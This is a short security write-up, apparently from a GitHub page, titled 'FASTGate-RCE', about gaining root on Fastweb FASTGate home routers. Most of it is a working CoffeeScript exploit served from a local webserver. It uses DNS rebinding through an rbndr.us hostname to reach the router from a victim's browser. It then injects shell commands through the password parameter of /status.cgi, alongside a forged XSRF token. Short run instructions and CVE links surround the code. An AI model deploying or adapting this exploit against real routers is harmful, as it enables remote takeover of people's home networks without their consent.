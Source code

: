 ```yaml
---
title: FASTGate-RCE
description: Abusing DNS to exploit a command injection and obtain root
layout: default
lang: en
prefetch:
  - www.fastweb.it
  - www.exploit-db.com
  - cve.mitre.org
---
```


This is the combination of already available exploit and attack techniques.


Serve the exploit as the index of a local webserver.
Craft a tailored `payload.shell` to verify the execution.
Open a web browser and visit `7f000001.c0a801fe.rbndr.us`
(switch between localhost and 192.168.1.254).

```coffeescript

ajax = (url, params, hdrs) ->
  try
    req = new XMLHttpRequest

    qs = new URLSearchParams
    if params
      `for (const [key, val] of Object.entries(params)) {
        qs.append(key, val);
      }`
      url += "?#{qs.toString()}"

    req.open 'GET', url, 0
    req.setRequestHeader 'X-Requested-With', 'XMLHttpRequest'
    req.setRequestHeader 'Content-type', 'application/x-www-form-urlencoded'
    if hdrs
      `for (const [key, val] of Object.entries(hdrs)) {
        req.setRequestHeader(key, val);
      }`

    req.send()
    if req.status == 200
      req.responseText
    else
      null

  catch
    null

random_string = (len) ->
  ascii_letters = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
  digits = '0123456789'
  letters = ascii_letters + digits
  result = ''
  for i in [0...len]
    result += letters.charAt Math.random() * letters.length
  return result

exploit = (cmd, token) ->
  params = {
    '_': "#{Math.round (new Date).getTime() / 1000}pytester#{random_string 12}",
    'sessionKey': 'NULL',
    'cmd': '3',
    'nvget': 'login_confirm',
    'username': random_string(4),
    'password': "'; #{cmd} ; #"
  }
  hdrs = {
    'X-XSRF-TOKEN': token,
    'DNT': '1',
    'Cookie': document.cookie
  }
  ajax '/status.cgi', params, hdrs

isthisyou = ->
  ajax '/status.cgi', {
    '_': "#{Math.round Date.getTime / 1000}pytester#{random_string 12}"
  }

class @Payload
  set = ->
    this.code = ajax '/payload.shell' if !isthisyou()
    return
  hasnot = ->
    !this.code?
  get = ->
    this.code

mp = new Payload
mp.set() while mp.hasnot()
token = Math.round Math.random * 100000000000
document.cookie = "XSRF-TOKEN=#{token}"
while true
  if isthisyou()
    exploit mp.get(), token
    break

```


Nothing prevents remote exploitation, root is gained.
Shell shoveling and verification is voluntarily omitted.

## Links

- [http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html](http://www.fastweb.it/forum/servizi-rete-fissa-tematiche-tecniche/urgente-vulnerabilita-modem-fastgate-0-00-47-t22720.html)
- [https://www.exploit-db.com/exploits/44606/](https://www.exploit-db.com/exploits/44606/)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6023)
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20122)
- [https://github.com/taviso/rbndr](https://github.com/taviso/rbndr)
- [https://github.com/Depau/fastgate-python](https://github.com/Depau/fastgate-python)
- [https://github.com/Nimayer/fastgate-toolkit](https://github.com/Nimayer/fastgate-toolkit)